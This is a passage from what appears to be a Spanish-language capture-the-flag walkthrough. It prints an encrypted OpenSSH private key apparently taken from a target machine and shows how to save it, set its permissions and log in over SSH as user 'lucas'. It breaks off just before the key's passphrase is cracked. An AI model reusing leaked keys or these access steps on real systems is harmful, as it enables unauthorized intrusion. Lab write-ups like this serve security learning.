 Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBTxe8YUL
BtzfftAdPgp8YZAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQCZCXvEPnO1
cbhxqctBEcBDZjqrFfolwVKmpBgY07M3CK7pO10UgBsLyYwAzJEw4e6YgPNSyCDWFaNTKG
07jgcgrggre8ePCMNFBCAGaYHmLrFIsKDCLI4NE54t58IUHeXCZz72xTobL/ptLk26RBnh
7bHG1JjGlxOkO6m+1oFNLtNuD2QPl8sbZtEzX4S9nNZ/dpyRpMfmB73rN3yyIylevVDEyv
f7CZ7oRO46uDgFPy5VzkndCeJF2YtZBXf5gjc2fajMXvq+b8ol8RZZ6jHXAhiblBXwpAm4
vLYfxzI27BZFnoteBnbdzwSL5apBF5gYWJAHKj/J6MhDj1GKAFc1AAAD0N9UDTcUxwMt5X
YFIZK8ieBL0NOuwocdgbUuktC21SdnSy6ocW3imM+3mzWjPdoBK/Ho339uPmBWI5sbMrpK
xkZMnl+rcTbgz4swv8gNuKhUc7wTgtrNX+PNMdIALNpsxYLt/l56GK8R4J8fLIU5+MojRs
+1NrYs8J4rnO1qWNoJRZoDlAaYqBV95cXoAEkwUHVustfgxUtrYKp+YPFIgx8okMjJgnbi
NNW3TzxluNi5oUhalH2DJ2khKDGQUi9ROFcsEXeJXt3lgpZZt1hrQDA1o8jTXeS4+dW7nZ
zjf3p0M77b/NvcZE+oXYQ1g5Xp1QSOSbj+tlmw54L7Eqb1UhZgnQ7ZsKCoaY9SuAcqm3E0
IJh+I+Zv1egSMS/DOHIxO3psQkciLjkpa+GtwQMl1ZAJHQaB6q70JJcBCfVsykdY52LKDI
pxZYpLZmyDx8TTaA8JOmvGpfNZkMU4I0i5/ZT65SRFJ1NlBCNwcwtOl9k4PW5LVxNsGRCJ
MJr8k5Ac0CX03fXESpmsUUVS+/Dj/hntHw89dO8HcqqIUEpeEbfTWLvax0CiSh3KjSceJp
+8gUyDGvCkcyVneUQjmmrRswRhTNxxKRBZsekGwHpo8hDYbUEFZqzzLAQbBIAdrl1tt7mV
tVBrmpM6CwJdzYEl21FaK8jvdyCwPr5HUgtuxrSpLvndcnwPaxJWGi4P471DDZeRYDGcWh
i6bICrLQgeJlHaEUmrQC5Rdv03zwI9U8DXUZ/OHb40PL8MXqBtU/b6CEU9JuzJpBrKZ+k+
tSn7hr8hppT2tUSxDvC+USMmw/WDfakjfHpoNwh7Pt5i0cwwpkXFQxJPvR0bLxvXZn+3xw
N7bw45FhBZCsHCAbV2+hVsP0lyxCQOj7yGkBja87S1e0q6WZjjB4SprenHkO7tg5Q0HsuM
Aif/02HHzWG+CR/IGlFsNtq1vylt2x+Y/091vCkROBDawjHz/8ogy2Fzg8JYTeoLkHwDGQ
O+TowA10RATek6ZEIxh6SmtDG/V5zeWCuEmK4sRT3q1FSvpB1/H+FxsGCoPIg8FzciGCh2
TLuskcXiagns9N1RLOnlHhiZd8RZA0Zg7oZIaBvaZnhZYGycpAJpWKebjrtokLYuMfXRLl
3/SAeUl72EA3m1DInxsPguFuk00roMc77N6erY7tjOZLVYPoSiygDR1A7f3zYz+0iFI4rL
ND8ikgmQvF6hrwwJBrp/0xKEaMTCKLvyyZ3eDSdBDPrkThhFwrPpI6+Ex8RvcWI6bTJAWJ
LdmmRXUS/DtO+69/aidvxGAYob+1M=
-----END OPENSSH PRIVATE KEY-----
```

Vemos que efectivamente es un `id_rsa` por lo que vamos a probar a conectarnos con el usuario `lucas` a la maquina victima con su clave privada `PEM`.

```shell
nano id_rsa

#Dentro del nano
<ID_RSA>
```

Lo guardamos y le damos los permisos adecuados a dicho archivo.

```shell
chmod 600 id_rsa
```

Ahora si nos conectaremos por `SSH` de la siguiente forma:

```shell
ssh -i id_rsa lucas@<IP>
```

Si lo intentamos veremos que nos pide una contraseña, por lo que vamos a probar a intentar `crackearla` de la siguiente forma:
